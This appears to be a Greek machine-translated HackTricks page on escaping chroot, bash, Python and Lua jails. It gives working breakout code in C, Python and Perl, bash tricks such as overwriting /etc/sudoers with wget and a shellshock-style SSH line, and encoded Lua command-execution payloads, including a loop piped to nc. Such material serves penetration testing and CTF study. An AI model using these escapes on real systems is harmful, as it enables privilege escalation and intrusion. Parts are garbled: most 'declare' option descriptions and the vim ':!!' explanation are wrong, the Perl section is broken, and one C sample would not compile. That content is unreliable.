 # Απόδραση από τα Jails

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## **GTFOBins**

**Αναζητήστε στο** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **αν μπορείτε να εκτελέσετε οποιοδήποτε δυαδικό αρχείο με ιδιότητα "Shell"**

## Απόδραση από το Chroot

Από την [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Ο μηχανισμός chroot **δεν προορίζεται για να προστατεύει** από πρόθεσης παρεμβολή από **προνομιούχους** (**root**) **χρήστες**. Στις περισσότερες συστάσεις, οι περιβάλλοντα chroot δεν στοιβάζονται σωστά και τα προγράμματα που εκτελούνται μέσα σε ένα chroot με επαρκή δικαιώματα μπορούν να εκτελέσουν ένα δεύτερο chroot για να διαφύγουν.\
Συνήθως αυτό σημαίνει ότι για να διαφύγετε πρέπει να είστε root μέσα στο chroot.

{% hint style="success" %}
Το **εργαλείο** [**chw00t**](https://github.com/earthquake/chw00t) δημιουργήθηκε για να καταχραστεί τα παρακάτω σενάρια και να διαφύγει από το `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Εάν είστε **root** μέσα σε ένα chroot μπορείτε να **διαφύγετε** δημιουργώντας **ένα άλλο chroot**. Αυτό συμβαίνει επειδή δύο chroots δεν μπορούν να υπάρχουν ταυτόχρονα (στο Linux), οπότε αν δημιουργήσετε ένα φάκελο και στη συνέχεια **δημιουργήσετε ένα νέο chroot** σε αυτόν τον νέο φάκελο ενώ **είστε έξω από αυτόν**, τότε θα βρίσκεστε **έξω από το νέο chroot** και, συνεπώς, θα βρίσκεστε στο σύστημα αρχείων.

Αυτό συμβαίνει επειδή συνήθως το chroot ΔΕΝ μετακινεί τον τρέχοντα κατάλογο εργασίας στον καθορισμένο, οπότε μπορείτε να δημιουργήσετε ένα chroot αλλά να είστε έξω από αυτόν.
{% endhint %}

Συνήθως δεν θα βρείτε το δυαδικό αρχείο `chroot` μέσα σε ένα chroot jail, αλλά **μπορείτε να το μεταγλωττίσετε, να το ανεβάσετε και να το εκτελέσετε**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Πυθώνας</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>

Η γλώσσα προγραμματισμού Perl είναι ιδανική για την απόδραση από περιορισμένα περιβάλλοντα bash. Μπορείτε να χρησιμοποιήσετε την εντολή `system` για να εκτελέσετε εντολές bash από το Perl script. Αυτό σας επιτρέπει να αποκτήσετε προνόμια υψηλότερου επιπέδου και να δραπετεύσετε από τον περιορισμένο bash shell.

Παρακάτω παρουσιάζεται ένα παράδειγμα Perl script που χρησιμοποιεί την εντολή `system` για να εκτελέσει μια εντολή bash:

```perl
#!/usr/bin/perl

system("/bin/bash -c 'command'");
```

Αντικαταστήστε τη λέξη "command" με την εντολή bash που θέλετε να εκτελέσετε. Όταν εκτελέσετε αυτό το Perl script, θα εκτελεστεί η εντολή bash και θα έχετε πρόσβαση σε προνόμια υψηλότερου επιπέδου.

</details>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Αποθηκευμένο fd

{% hint style="warning" %}
Αυτό είναι παρόμοιο με την προηγούμενη περίπτωση, αλλά σε αυτή την περίπτωση ο **επιτιθέμενος αποθηκεύει έναν αριθμό αναγνωριστικού αρχείου (file descriptor) στον τρέχοντα φάκελο** και στη συνέχεια **δημιουργεί το chroot σε ένα νέο φάκελο**. Τελικά, καθώς έχει **πρόσβαση** σε αυτόν τον **FD έξω από το chroot**, μπορεί να τον χρησιμοποιήσει για να **δραπετεύσει**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
Το FD μπορεί να περάσει μέσω Unix Domain Sockets, οπότε:

* Δημιουργήστε ένα διεργασία παιδί (fork)
* Δημιουργήστε UDS ώστε ο γονέας και το παιδί να μπορούν να επικοινωνούν
* Εκτελέστε το chroot στη διεργασία παιδί σε έναν διαφορετικό φάκελο
* Στη διεργασία γονέα, δημιουργήστε ένα FD ενός φακέλου που βρίσκεται έξω από το chroot της νέας διεργασίας παιδιού
* Περάστε στη διεργασία παιδί αυτό το FD χρησιμοποιώντας το UDS
* Η διεργασία παιδί αλλάζει τον τρέχοντα φάκελο σε αυτόν τον FD και επειδή βρίσκεται έξω από το chroot της, θα δραπετεύσει από τη φυλακή
{% endhint %}

### &#x20;Root + Mount

{% hint style="warning" %}
* Τοποθετήστε τη ρίζα της συσκευής (/) σε έναν κατάλογο μέσα στο chroot
* Εκτελέστε το chroot σε αυτόν τον κατάλογο

Αυτό είναι δυνατό στο Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Τοποθετήστε το procfs σε έναν κατάλογο μέσα στο chroot (αν δεν υπάρχει ήδη)
* Αναζητήστε ένα pid που έχει μια διαφορετική καταχώρηση root/cwd, όπως: /proc/1/root
* Εκτελέστε το chroot σε αυτήν την καταχώρηση
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Δημιουργήστε ένα Fork (διεργασία παιδί) και εκτελέστε το chroot σε έναν διαφορετικό φάκελο πιο βαθιά στο σύστημα αρχείων και αλλάξτε τον τρέχοντα φάκελο σε αυτόν
* Από τη διεργασία γονέα, μετακινήστε τον φάκελο όπου βρίσκεται η διεργασία παιδί σε έναν φάκελο προηγούμενο του chroot των παιδιών
* Αυτή η διεργασία παιδί θα βρεθεί έξω από το chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Παλαιότερα, οι χρήστες μπορούσαν να εντοπίζουν σφάλματα στις δικές τους διεργασίες από μια διεργασία του ίδιου τους... αλλά αυτό δεν είναι πλέον δυνατό από προεπιλογή
* Παρόλα αυτά, αν είναι δυνατό, μπορείτε να εντοπίσετε σφάλματα σε μια διεργασία και να εκτελέσετε ένα shellcode μέσα σε αυτήν ([δείτε αυτό το παράδειγμα](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Φυλακές Bash

### Απαρίθμηση

Λάβετε πληροφορίες σχετικά με τη φυλακή:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Τροποποίηση του PATH

Ελέγξτε αν μπορείτε να τροποποιήσετε τη μεταβλητή περιβάλλοντος PATH.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Χρήση του vim

Ο επεξεργαστής κειμένου vim είναι ένας ισχυρός επεξεργαστής κειμένου που μπορεί να χρησιμοποιηθεί για να εκτελέσετε ορισμένες ενέργειες προνομιούχου ανόδου. Ακολουθούν μερικές τεχνικές που μπορείτε να χρησιμοποιήσετε με το vim:

1. Εκτέλεση εντολών shell: Μπορείτε να εκτελέσετε εντολές shell από το vim χρησιμοποιώντας την εντολή `:!`. Για παράδειγμα, μπορείτε να εκτελέσετε την εντολή `:!id` για να εμφανίσετε την ταυτότητα του χρήστη που εκτελεί το vim.

2. Εκτέλεση εντολών με δικαιώματα ρίζας: Αν έχετε πρόσβαση στον λογαριασμό ρίζας, μπορείτε να εκτελέσετε εντολές με δικαιώματα ρίζας από το vim. Χρησιμοποιήστε την εντολή `:!!` για να εκτελέσετε την τελευταία εντολή με δικαιώματα ρίζας.

3. Εκτέλεση εντολών με τοπικά δικαιώματα χρήστη: Μπορείτε επίσης να εκτελέσετε εντολές με τα δικαιώματα του τρέχοντος χρήστη. Χρησιμοποιήστε την εντολή `:sh` για να ανοίξετε ένα νέο παράθυρο shell με τα δικαιώματα του τρέχοντος χρήστη.

Αυτές είναι μερικές από τις βασικές τεχνικές που μπορείτε να χρησιμοποιήσετε με το vim για να εκτελέσετε ενέργειες προνομιούχου ανόδου. Θυμηθείτε πάντα να χρησιμοποιείτε αυτές τις τεχνικές με προσοχή και μόνο όταν έχετε την απαραίτητη άδεια.
```bash
:set shell=/bin/sh
:shell
```
### Δημιουργία σεναρίου

Ελέγξτε αν μπορείτε να δημιουργήσετε ένα εκτελέσιμο αρχείο με περιεχόμενο _/bin/bash_.
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Πάρτε το bash από το SSH

Εάν έχετε πρόσβαση μέσω ssh, μπορείτε να χρησιμοποιήσετε αυτό το κόλπο για να εκτελέσετε ένα κέλυφος bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Δήλωση

Η δήλωση `declare` χρησιμοποιείται για να ορίσει μεταβλητές και να τους αναθέσει τιμές. Μπορεί επίσης να χρησιμοποιηθεί για να ορίσει τις ιδιότητες μιας μεταβλητής, όπως τον τύπο δεδομένων και την εμβέλειά της.

Η σύνταξη για τη δήλωση μιας μεταβλητής είναι η εξής:

```bash
declare [-aAfFgilnrtux] [-p] [name[=value]]
```

Οι επιλογές που μπορούν να χρησιμοποιηθούν με τη δήλωση `declare` περιλαμβάνουν:

- `-a`: Δηλώνει μια μεταβλητή ως πίνακα.
- `-A`: Δηλώνει μια μεταβλητή ως συσχετισμένο πίνακα.
- `-f`: Δηλώνει μια μεταβλητή ως συνάρτηση.
- `-F`: Δηλώνει μια μεταβλητή ως συνάρτηση που είναι προσβάσιμη μόνο για ανάγνωση.
- `-g`: Δηλώνει μια μεταβλητή ως παγκόσμια.
- `-i`: Δηλώνει μια μεταβλητή ως αναφορά σε μια μεταβλητή περιβάλλοντος.
- `-l`: Δηλώνει μια μεταβλητή ως τοπική.
- `-n`: Δηλώνει μια μεταβλητή ως αριθμητική.
- `-r`: Δηλώνει μια μεταβλητή ως μόνο για ανάγνωση.
- `-t`: Δηλώνει μια μεταβλητή ως πίνακα με αριθμητικές τιμές.
- `-u`: Δηλώνει μια μεταβλητή ως ανεπανάληπτη.
- `-x`: Δηλώνει μια μεταβλητή ως εξαγωγή για το περιβάλλον.

Μπορείτε επίσης να χρησιμοποιήσετε την επιλογή `-p` για να εμφανίσετε τις ιδιότητες μιας μεταβλητής.

Παραδείγματα:

```bash
declare -a my_array
declare -i my_number=10
declare -r readonly_var="This variable is read-only"
declare -x exported_var="This variable is exported"
declare -p my_array
```

Η παραπάνω δήλωση θα δημιουργήσει έναν πίνακα με το όνομα `my_array`, μια αριθμητική μεταβλητή με το όνομα `my_number` και τιμή 10, μια μεταβλητή μόνο για ανάγνωση με το όνομα `readonly_var` και μια εξαγόμενη μεταβλητή με το όνομα `exported_var`. Η επιλογή `-p` θα εμφανίσει τις ιδιότητες του πίνακα `my_array`.
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Μπορείτε να αντικαταστήσετε, για παράδειγμα, το αρχείο sudoers.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Άλλα κόλπα

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Ενδιαφέρουσα μπορεί να είναι επίσης η σελίδα:**

{% content-ref url="../useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Python Jails

Κόλπα για τη διαφυγή από τα python jails στην ακόλουθη σελίδα:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Σε αυτήν τη σελίδα μπορείτε να βρείτε τις παγκόσμιες συναρτήσεις στις οποίες έχετε πρόσβαση μέσα στο lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Αξιολόγηση με εκτέλεση εντολής:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Μερικά κόλπα για να **καλέσετε συναρτήσεις ενός βιβλιοθηκών χωρίς να χρησιμοποιήσετε τελείες**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Απαριθμήστε τις λειτουργίες ενός βιβλιοθηκών:
```bash
for k,v in pairs(string) do print(k,v) end
```
Σημείωση ότι κάθε φορά που εκτελείτε την προηγούμενη μια γραμμή σε ένα **διαφορετικό περιβάλλον lua η σειρά των συναρτήσεων αλλάζει**. Επομένως, αν χρειάζεστε να εκτελέσετε μια συγκεκριμένη συνάρτηση, μπορείτε να πραγματοποιήσετε μια επίθεση με βία φορτώνοντας διάφορα περιβάλλοντα lua και καλώντας την πρώτη συνάρτηση της βιβλιοθήκης le:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Αποκτήστε διαδραστικό κέλυφος lua**: Εάν βρίσκεστε μέσα σε ένα περιορισμένο κέλυφος lua, μπορείτε να αποκτήσετε ένα νέο κέλυφος lua (και ελπίζουμε απεριόριστο) καλώντας:
```bash
debug.debug()
```
## Αναφορές

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Διαφάνειες: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
